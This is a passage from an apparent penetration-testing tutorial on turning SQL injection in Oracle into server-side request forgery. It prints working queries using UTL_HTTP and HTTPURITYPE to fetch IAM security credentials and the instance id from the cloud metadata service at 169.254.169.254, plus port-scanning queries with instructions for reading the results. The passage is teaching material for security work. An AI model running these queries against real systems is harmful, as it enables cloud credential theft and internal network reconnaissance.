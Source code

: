 ![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/21.png)

Interestingly, due to the ability to craft raw TCP requests, this package can also be used to query the Instance meta-data service of all cloud providers as the method type and additional headers can all be passed within the TCP request.

#### UTL_HTTP and Web Requests

Perhaps the most common and widely documented technique in every Out of Band Oracle SQL Injection tutorial out there is the <a href="https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070">`UTL_HTTP` package</a>. This package is defined by the documentation as - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`

```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/16.png)

You could additionally, use this to perform some rudimentary port scanning as well with queries like

```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/17.png)

A `ORA-12541: TNS:no listener` or a `TNS:operation timed out` is a sign that the TCP port is closed, whereas a `ORA-29263: HTTP protocol error` or data is a sign that the port is open.

Another package I have used in the past with varied success is the <a href="https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705" target="_blank" rel="noopener noreferrer"> `GETCLOB()` method of the `HTTPURITYPE` Oracle abstract type</a> that allows you to interact with a URL and provides support for the HTTP protocol. The `GETCLOB()` method is used to fetch the GET response from a URL as a <a href="https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html" target="_blank" rel="noopener noreferrer">CLOB data type.


```
select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/22.png)

## MSSQL

Microsoft SQL Server provides multiple extended stored procedures that allow you to interact with not only the network but also the file system and even the <a href="https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/" target="_blank" rel="noopener noreferrer">Windows Registry</a>.
